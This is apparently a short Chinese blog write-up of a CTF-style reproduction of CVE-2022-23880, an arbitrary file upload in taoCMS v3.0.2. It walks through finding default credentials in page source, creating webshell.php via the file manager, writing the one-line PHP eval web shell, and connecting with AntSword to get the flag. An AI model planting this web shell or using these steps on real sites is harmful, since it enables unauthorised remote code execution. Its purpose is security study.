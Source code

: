 ```yaml
---
title: CVE-2022-23880
subtitle:
date: 2025-03-14T14:14:06+08:00
slug: 35608d4
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

![](images/a6f03e544d5ca46e09def5aca5fb9189.png)
taoCMS v3.0.2任意文件上传
![](images/47dd24950e9425573d1042defff4e7a2.png)
进入点击管理，F12查看源码，发现
![](images/1cffc7be416cce565b6747a4af7e3d06.png)
默认账号密码，尝试登陆
![](images/d1e95e841095d90f80cdaa68585ac6c1.png)
文件管理处，新建webshell.php文件，
![](images/11114c589e675274425a76a2d6842e3a.png)
写入一句话木马

```
<?php @eval($_POST['t1ng']);?>
```

右键复制链接
![](images/1a81a7c4d1cb7d180896dd2617e2c7dd.png)
蚁剑连接
![](images/cdbbc79285cd3fd93f7f2f4bedf30a50.png)
拿到flag
![](images/61bf2aed9225f01efa7ee4d03f10e37e.png)
